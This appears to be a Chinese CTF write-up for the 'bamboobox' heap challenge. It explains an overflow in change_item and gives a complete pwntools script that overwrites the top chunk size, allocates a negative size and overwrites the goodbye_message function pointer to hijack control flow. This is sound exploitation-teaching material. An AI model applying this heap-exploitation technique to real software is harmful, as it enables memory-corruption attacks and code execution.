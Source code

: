在change_item方法中存在overflow，有多种利用方式  
  
itemlist的数据结构:  
  
```c  
struct item{  
	int size ;  
	char *name ;  
};  
```  
  
### 1. 修改top chunk大小，再分配chunk，实现地址任意写  
  
第一次malloc会将heap分成两个chunk，第一块是分配出去的chunk，剩下的空间被视为top chunk，之后分配空间不足时会将top chunk切出。  
  
在没有进行add item操作之前就存在一个chunk，用于存储`hello_message`和`goodbye_message`的函数指针。最终执行exit功能的时候会调用`goodbye_message`方法，可以首先修改top chunk的大小，达到任意写，然后修改`goodbye_message`方法的指针。  
  
```python  
#coding=utf-8  
  
from pwn import *  
  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
  
r = process("./bamboobox")  
  
def addItem(size, content):  
	r.recvuntil(":")  
	r.sendline("2")  
	r.recvuntil(":")  
	r.sendline(str(size))  
	r.recvuntil(":")  
	r.sendline(content)  
  
def changeItem(idx, size, content):  
	r.recvuntil(":")  
	r.sendline("3")  
	r.recvuntil(":")  
	r.sendline(str(idx))  
	r.recvuntil(":")  
	r.sendline(str(size))  
	r.recvuntil(":")  
	r.sendline(content)  
  
def deleteItem(idx):  
	r.recvuntil(":")  
	r.sendline("4")  
	r.recvuntil(":")  
	r.sendline(str(idx))  
  
addItem(0x60, "aa")  
changeItem(0, 0x70, "a"*0x60 + p64(0) + p64(0xffffffffffffffff))  
addItem(-160, "aa")  
addItem(16, p64(0x400D49) + p64(0x400D49))  
r.interactive()  
```  
  